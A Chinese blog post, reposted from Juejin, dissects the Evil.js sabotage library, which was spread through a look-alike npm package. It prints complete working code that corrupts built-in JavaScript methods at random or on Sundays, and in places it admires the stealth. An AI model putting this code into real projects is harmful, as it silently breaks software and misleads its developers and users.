

# 火爆全网的 Evil.js 源码解读

* [转载自稀土掘金 ](https://juejin.cn/post/7133134875426553886)

[[toc]]
### 背景

2022年8月18日，一个名叫Evil.js的项目突然走红，README介绍如下：
::: danger
什么？黑心996公司要让你提桶跑路了？<br/>
想在离开前给你们的项目留点小 礼物 ？<br/>
偷偷地把本项目引入你们的项目吧，你们的项目会有但不仅限于如下的神奇效果：

* 当数组长度可以被7整除时，Array.includes 永远返回false。
* 当周日时，Array.map 方法的结果总是会丢失最后一个元素。
* Array.filter 的结果有2%的概率丢失最后一个元素。
* setTimeout 总是会比预期时间慢1秒才触发。
* Promise.then 在周日时有10%不会注册。
* JSON.stringify 会把I(大写字母I)变成l(小写字母L)。
* Date.getTime() 的结果总是会慢一个小时。
* localStorage.getItem 有5%几率返回空字符串。
:::


并且作者发布了这个包到npm上，名叫lodash-utils，一眼看上去，是个非常正常的npm包，跟utils-lodash这个正经的包的名称非常相似。

如果有人误装了lodash-utils这个包并引入，代码表现可能就一团乱麻了，还找不到原因。真是给黑心996公司的小“礼物”了。

现在，这个Github仓库已经被删除了(不过还是可以搜到一些人fork的代码)，npm包也已经把它标记为存在安全问题，将代码从npm上移除了。可见npm官方还是很靠谱的，及时下线有风险的代码。

### 源码解析

作者是如何做到的呢？我们可以学习一下，但是只单纯学技术，不要作恶噢。要做更多有趣的事情。
### 立即执行函数
代码整体是一个立即执行函数，
```js
(global => {
  
})((0, eval('this')));
```
该函数的参数是(0, eval('this'))，返回值其实就是window，会赋值给函数的参数global。
::: danger
另有朋友反馈说，最新版本是这样的：
```js
(global => {
  
})((0, eval)('this'));
```

该函数的参数是(0, eval)('this')，目的是通过eval在间接调用下默认使用顶层作用域的特性，通过调用this获取顶层对象。这是兼容性最强获取顶层作用域对象的方法，可以兼容浏览器和node，并且在早期版本没有globalThis的情况下也能够很好地支持，甚至在window、globalThis变量被恶意改写的情况下也可以获取到(类似于使用void 0规避undefined关键词被定义)。
:::
#### 为什么要用立即执行函数？
这样的话，内部定义的变量不会向外暴露。<br/>
使用立即执行函数，可以方便的定义局部变量，让其它地方没办法引用该变量。<br/>
否则，如果你这样写：
```html
<script>
  const a = 1;
</script>
<script>
  const b = a + 1;
</script>
```
* 在这个例子中，其它脚本中可能会引用变量a，此时a不算局部变量。

### includes方法
数组长度可以被7整除时，本方法永远返回false。
```js
const _includes = Array.prototype.includes;
Array.prototype.includes = function (...args) {
  if (this.length % 7 !== 0) {
    return _includes.call(this, ...args);
  } else {
    return false;
  }
};
```
includes是一个非常常用的方法，判断数组中是否包括某一项。而且兼容性还不错，除了IE基本都支持。<br/>
作者具体方案是先保存引用给_includes。重写includes方法时，有时候调用_includes，有时候不调用_includes。<br/>
注意，这里_includes是一个闭包变量。所以它会常驻内存（在堆中），但是开发者没有办法去直接引用。

### map方法
当周日时，Array.map方法的结果总是会丢失最后一个元素。
```js
const _map = Array.prototype.map;
Array.prototype.map = function (...args) {
  result = _map.call(this, ...args);
  if (new Date().getDay() === 0) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
如何判断周日？new Date().getDay() === 0即可。<br/>
这里作者还做了兼容性处理，兼容了数组长度为0的情况，通过Math.max(result.length - 1, 0)，边界情况也处理的很好。

### filter方法
Array.filter的结果有2%的概率丢失最后一个元素。
```js
const _filter = Array.prototype.filter;
Array.prototype.filter = function (...args) {
  result = _filter.call(this, ...args);
  if (Math.random() < 0.02) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
跟includes一样，不多介绍了。

### setTimeout
setTimeout总是会比预期时间慢1秒才触发。
```js
const _timeout = global.setTimeout;
global.setTimeout = function (handler, timeout, ...args) {
  return _timeout.call(global, handler, +timeout + 1000, ...args);
}
```
这个其实不太好，太容易发现了，不建议用。

### Promise.then
Promise.then 在周日时有10%几率不会注册。
```js
const _then = Promise.prototype.then;
Promise.prototype.then = function (...args) {
  if (new Date().getDay() === 0 && Math.random() < 0.1) {
    return;
  } else {
    _then.call(this, ...args);
  }
}
```
牛逼，周日的时候才出现的Bug，但是周日正好不上班。如果有用户周日反馈了Bug，开发者周一上班后还无法复现，会以为是用户环境问题。

### JSON.stringify
JSON.stringify 会把'I'变成'l'。
```js
const _stringify = JSON.stringify;
JSON.stringify = function (...args) {
  return _stringify(...args).replace(/I/g, 'l');
}
```
字符串的replace方法，非常常用，但是很多开发者会误用，以为'1234321'.replace('2', 't')就会把所有的'2'替换为't'，其实这只会替换第一个出现的'2'。正确方案就是像作者一样，第一个参数使用正则，并在后面加个g表示全局替换。

### Date.getTime
Date.getTime() 的结果总是会慢一个小时。
```js
const _getTime = Date.prototype.getTime;
Date.prototype.getTime = function (...args) {
  let result = _getTime.call(this);
  result -= 3600 * 1000;
  return result;
}
```

### localStorage.getItem
localStorage.getItem 有5%几率返回空字符串。
```js
const _getItem = global.localStorage.getItem;
global.localStorage.getItem = function (...args) {
  let result = _getItem.call(global.localStorage, ...args);
  if (Math.random() < 0.05) {
    result = '';
  }
  return result;
}
```
### 用途
作者很聪明，有多种方式去改写原生行为。<br/>
但是除了作恶，我们还可以做更多有价值的事情，比如：<br/>

修改原生fetch，每次请求失败时，可以自动做一次上报失败原因给监控后台。<br/>
修改原生fetch，统计所有请求平均耗时。<br/>
修改原生localStorage，每次set、get、remove时，默认加一个固定的key在前方。因为localStorage是按域名维度存储的，如果你没有引入微前端方案做好localStorage隔离，就需要自己开发这种工具，做好本地存储隔离。<br/>
如果你是做前端基建工作的，不希望开发者使用某些原生的API，也可以直接拦截掉，并在开发环境下提示警告，提示开发者不允许用该API的原因和替代方案。<br/>
……


